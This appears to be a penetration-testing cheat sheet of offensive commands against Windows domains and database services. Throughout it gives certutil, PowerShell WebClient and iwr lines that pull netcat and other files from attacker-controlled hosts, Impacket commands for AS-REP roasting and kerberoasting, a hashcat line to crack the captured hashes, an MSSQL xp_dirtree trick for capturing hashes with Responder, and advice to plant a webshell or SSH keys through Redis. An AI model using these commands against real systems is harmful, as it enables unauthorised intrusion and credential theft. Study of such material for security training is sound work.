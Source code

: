 2. certutil -urlcache -split -f http://x.x.x.x/nc.exe C:\\users\public\nc.exe

3. (New-Object Net.WebClient).DownloadFile('http://10.10.14.102:8000/test.txt','test.txt') 

4. iwr -uri http://x.x.x.x:8080/nc.exe -outfile /tmp/nc.exe

## Virtual Host scanning
```
https://github.com/codingo/VHostScan
VHostScan -t local.domain -w /opt/VHostScan/VHostScan/wordlists/virtual-hostscanning.txt
```



## Impacket Script
*  Get Password Hash of User Accounts:
```
python3 GetNPUsers.py local.domain/ -dc-ip 10.10.10.175 -request -usersfile = To provide users
```

    later use below command to crack the password:
```
hashcat -m 18200 -a 0 Hash.txt /usr/share/wordlists/rockyou.txt --force
```

2. Enumerate Domain Users
```
python3 GetADUsers.py -all local.domain/User -dc-ip x.x.x.x
```

3. Use this script to check if any user is vulnerable to kerberoasting.
```
GetUserSPNs.py -request -dc-ip x.x.x.x local.domain/user
```



## MSSQL - 1433
1. Use Impacket script - mssqlclient.py for login
```
mssqlclient.py user@x.x.x.x -windows-auth
```

2. Use xp_dirtree "\\x.x.x.x\doesntexist" for getting a User Hash on Responder.

## Oracle - 1521
Use ODAT tool for attacking database

https://github.com/quentinhardy/odat



## Redis - 6379
```
nmap --script redis-info -sV -p 6379 x.x.x.x
```
Either upload a webshell or ssh keys and get access to the box.
